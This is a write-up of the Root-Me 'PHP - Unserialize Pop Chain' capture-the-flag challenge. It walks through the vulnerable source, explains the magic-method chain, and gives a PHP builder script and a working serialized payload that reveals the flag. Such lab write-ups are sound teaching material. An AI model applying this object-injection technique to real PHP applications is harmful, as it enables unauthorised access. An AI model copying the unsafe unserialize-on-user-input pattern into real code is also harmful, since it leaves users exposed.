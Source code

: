 ```yaml
---
title: "- Rootme CTF - POP chain"
tags:
  - PHP sec
  - code Review
  - web
  - CTF 
---
```

# Some POP Chains in PHP

### 1. Rootme: PHP - Unserialize Pop Chain.

The question gives the source code and here is what to look for:

```php
<?php

$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}

?>

```

### Analysis:

The post takes in the parameter data via the POST method and unserializes it. There are 2 classes: `GetMessage` and `WakyWaky`. The flag will be retrieved in the magic method of the class `GetMessage::__destruct()`.

```php
phpCopy code
if ($getflag) {
    include("flag.php");
    echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
}

```

So the condition to get the flag is:

1. `__destruct()` executed: this is a magic method in PHP that will be executed when the object is destroyed or the program ends (not executed when the program ends by the `die()`).
2. The value `receive` of the object given by the class `GetMessage` is "HelloBooooooy".
3. `$getflag` has the value `true`.

### Practice:

The first thing to do is to avoid the appearance of the function `__destruct()`. We see in the class `GetMessage`:

```php
function __construct($receive) {
    if ($receive === "HelloBooooooy") {
        die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
    } else {
        $this->receive = $receive;
    }
}

```

This is a magic method that executes when the object is initialized. However, if the initialization always assigns `$receive` a value of "HelloBooooooy", it will be false because it executes `die()`, so it needs to be assigned after initialization and the method `__toString()` in the class `WakyWaky` must be executed because it can do this:

```php
return (new GetMessage($this->msg))->receive;

```

Continue to set the `$getflag` variable to `true` as we see in the class `WakyWaky`:

```php
function __toString() {
    global $getflag;
    $getflag = true;
    return (new GetMessage($this->msg))->receive;
}

```

`__toString()` is a magic method that is executed when an object created by that class is used as a string. For example: `echo`, `print`, `preg_match()`, …

Notice that in the same class there is:

```php
function __wakeup() {
    echo "[YOU]: ".$this->msg."<br>";
}

```

When `$this->msg` is an object of a class `WakyWaky`, that object will execute `__toString()`. So to execute `__wakeup()` is fine, this is also a magic method executed when the object is unserialized => The object needs to be passed into the constructor `unserialize()` by the class `WakyWaky`.

### Script Summary:

```php
<?php
$getflag = false;
class GetMessage
{
    public $receive;
}
class WakyWaky
{
    public $msg;
    function __construct($msg)
    {
        $this->msg = $msg;
    }
}
$a = new GetMessage('');
$a->receive = 'HelloBooooooy';

$b1 = new WakyWaky($a);
$b2 = new WakyWaky($b1);
echo serialize($b2);

```

### Payload:

```css
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}

```